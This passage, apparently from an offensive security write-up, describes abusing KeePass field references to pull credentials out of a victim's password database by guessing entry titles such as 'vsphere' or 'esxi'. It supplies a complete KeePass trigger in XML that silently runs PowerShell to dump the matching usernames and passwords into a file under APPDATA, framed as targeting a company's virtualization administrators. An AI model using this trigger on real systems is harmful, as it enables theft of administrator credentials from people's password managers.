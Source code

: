 If we are able to infer or guess the value of an entry's title, we can export each of its fields. Let's say that we target the virtualization environment of a company, it is actually quite possible that the IT staff's database has entries whose title contains keywords like *vmware*, *vsphere*, *vcenter*, *esx*, etc. 

It is important to keep in mind that there is no need for our keywords to perfectly match the entries' title, as KeePass [simple search mode](https://keepass.info/help/base/search.html#mode_se) is used to resolve them. If the title is *vSphere Administrator Access*, then `{REF:<WantedField>@T:vsphere}` is enough to get a match.

Following this principle, we can create a similar PowerShell-executing trigger that tries to resolve the following references and write them in a file, hopefully gathering passwords on the way:

```
{REF:U@T:vmware}:{REF:P@T:vmware}:{REF:A@T:vmware}
{REF:U@T:vsphere}:{REF:P@T:vsphere}:{REF:A@T:vsphere}
{REF:U@T:vcenter}:{REF:P@T:vcenter}:{REF:A@T:vcenter}
{REF:U@T:esxi}:{REF:P@T:esx}:{REF:A@T:esxi}
```

The resulting trigger would be:

```xml
<Trigger>
	<Guid>cwlVj6cXjUaDVnvryDJkFw==</Guid>
	<Name>Reference Export</Name>
	<TurnOffAfterAction>true</TurnOffAfterAction>
	<Events>
		<Event>
			<TypeGuid>5f8TBoW4QYm5BvaeKztApw==</TypeGuid>
			<Parameters>
				<Parameter>0</Parameter>
				<Parameter />
			</Parameters>
		</Event>
	</Events>
	<Conditions />
	<Actions>
		<Action>
			<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
			<Parameters>
				<Parameter>PowerShell.exe</Parameter>
				<Parameter>-C "if (!(Test-Path $env:APPDATA'\reference_export.txt')) {New-Item -itemType File -Path $env:APPDATA -Name 'reference_export.txt' | Out-Null}; Add-Content $env:APPDATA'\reference_export.txt' \"{REF:T@T:vmware}:{REF:U@T:vmware}:{REF:P@T:vmware}`n{REF:T@T:vsphere}:{REF:U@T:vsphere}:{REF:P@T:vsphere}`n{REF:T@T:vcenter}:{REF:U@T:vcenter}:{REF:P@T:vcenter}`n{REF:T@T:esxi}:{REF:U@T:esxi}:{REF:P@T:esxi}\";"</Parameter>
				<Parameter>False</Parameter>
				<Parameter>1</Parameter>
				<Parameter />
			</Parameters>
		</Action>
	</Actions>
</Trigger>
```

